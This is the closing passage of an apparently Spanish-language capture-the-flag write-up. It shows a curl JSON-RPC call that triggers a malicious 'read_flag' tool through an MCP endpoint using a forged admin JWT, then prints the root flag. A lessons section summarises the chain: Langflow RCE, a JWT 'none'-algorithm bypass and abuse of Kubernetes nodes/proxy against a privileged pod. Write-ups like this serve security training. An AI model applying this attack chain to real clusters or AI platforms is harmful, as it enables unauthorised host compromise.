   

   > La API responde confirmando el registro exitoso: `{"status":"registered","name":"read_flag"}`.

4. **Ejecución y Extracción de la Root Flag:**
   Disparamos la ejecución de la herramienta registrada mediante una llamada JSON-RPC al endpoint `/mcp`:

   ```bash
   curl -s -X POST http://10.129.99.222:30080/mcp \
     -H 'Content-Type: application/json' \
     -H "Authorization: Bearer $ADMIN_JWT" \
     -d '{"jsonrpc": "2.0", "id": 8, "method": "tools/call", "params":{"name": "read_flag", "arguments": {}}}'
   ```

   

   > Como resultado de la ejecución a través de WebSockets contra el pod privilegiado de `node-exporter` (aprovechando los permisos de `nodes/proxy` en el clúster), el sistema nos devuelve el contenido del archivo de la flag de root.

**🚩 Root Flag:** `62dc9da75d7120bb63484c11d76a8ea8`

---

## 💡 Lessons Learned & Tips

- **¿Qué aprendí?:**
  - **RCE en plataformas de flujos de IA:** Explotación de vulnerabilidades de RCE no autenticado (CVE-2026-33017 en Langflow).
  - **Fallas en la validación JWT:** Identificación y abuso de configuraciones inseguras de JWT, específicamente el bypass por soporte del algoritmo `none`.
  - **Abuso de RBAC y Pods Privilegiados en Kubernetes:** Explotación de permisos RBAC excesivos (`nodes/proxy`) combinados con pods privilegiados (`node-exporter` montando `/` en `/host/root`) para ejecutar comandos directamente en el host subyacente y escalar privilegios a `root`.
- **Rabbit holes evitados:**
  - Evitar persistir en reverse shells tradicionales a través de puertos externos cuando las políticas de red o el aislamiento del clúster bloquean la salida de los contenedores; en su lugar, aprovechar las capacidades de ejecución interna mediante herramientas personalizadas y WebSockets directos al Kubelet agiliza la obtención de resultados de manera limpia y sin fricción de red.
